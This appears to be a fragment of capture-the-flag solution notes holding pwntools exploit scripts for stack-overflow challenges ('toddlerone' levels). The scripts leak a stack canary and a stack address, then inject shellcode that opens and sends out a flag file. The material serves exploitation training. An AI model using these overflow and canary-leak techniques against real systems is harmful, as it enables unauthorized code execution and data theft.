 payload=asm(shell_code, arch='amd64')
shell2_len=len(payload)
print(shell2_len)
#payload+=b'\x90'*(0x50-shell2_len-8)+p64(0xe9b83ad361fb2b32)+p64(0)+p64(cc)+p64(0)+p64(stack_add)
payload+=b'\x90'*(0x48-shell2_len)+p64(0xe9b83ad361fb2b32)+p64(cc)*3+p64(stack_add)*2
p.sendlineafter("bytes)!\n",payload)

p.interactive()

level 5.0
#分开泄露canary和返回地址
from pwn import *

p=process(['/challenge/toddlerone_level5.0'])

shell_code='''
push 0x616c662f
mov BYTE PTR [rsp+4],0x67
mov eax,2
push rsp
pop rdi
xor esi,esi
syscall

mov edi,1
push rax
pop rsi
xor edx,edx
mov r10,1000
push 40
pop rax
syscall
'''
overflow_size=0x49
p.sendlineafter("Payload size: ",str(overflow_size))

payload=b'\x90'*(0x30-6)+b'REPEAT'+p64(0x3291bcb85c49984)+b'\x90'*16
p.sendlineafter("bytes)!\n",payload)

p.recvuntil("You said: ")

p.recvuntil("\n",drop=1)
recv_data=p.recv(7)
can=b'\x00'+recv_data
cc=u64(can)
print(hex(cc))

overflow_size=0x60
p.sendlineafter("Payload size: ",str(overflow_size))

payload=b'\x90'*(0x30-6)+b'REPEAT'+p64(0x3291bcb85c49984)+b'\x90'*16+b'\x90'*(0xf+8)
p.sendlineafter("bytes)!\n",payload)

p.recvuntil("You said: ")
p.recvuntil("\n",drop=1)
recv_data=p.recv(6)
recv_data=recv_data+b'\x00\x00'
stack_addr=u64(recv_data)-(0xc0*2)-0x60
print(hex(stack_addr))
